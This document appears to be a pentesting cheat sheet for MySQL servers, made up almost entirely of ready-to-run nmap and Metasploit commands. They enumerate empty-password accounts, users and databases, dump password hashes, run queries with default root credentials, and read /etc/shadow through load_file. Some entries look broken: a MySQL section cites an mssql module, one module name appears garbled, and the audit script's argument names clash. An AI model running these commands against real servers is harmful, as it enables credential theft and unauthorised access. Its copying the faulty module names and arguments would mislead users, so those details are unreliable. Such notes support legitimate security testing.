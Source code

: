 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to perform audit on the SQL server

```
nmap -p 3306 -sV <target-ip> --script mysql-audit --script-args="mysqlaudit.username='root',mysql-audit.pass='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
```

- The `mysql-audit` script in Nmap is designed to perform security audits on MySQL database servers by checking for compliance with specific security configurations, guidelines, or benchmarks.

### Using `nmap` to dump hashes

- Dumps the password hashes from an MySQL server in a format suitable for cracking by tools such as John the Ripper.
```
nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
```

### Using `nmap` to run MySQL queries

```
nmap -p 3306 <ip> --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password='secret'"
```

### Using `metasploit` to enumerate directories

- Metasploit module to enumerate writable directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `metasploit` to dump schema

```
use auxiliary/scanner/mssql/mssql_schemadump
```

- A schema in a database is a container for database objects like tables, views, procedures, and functions.
### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/sql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
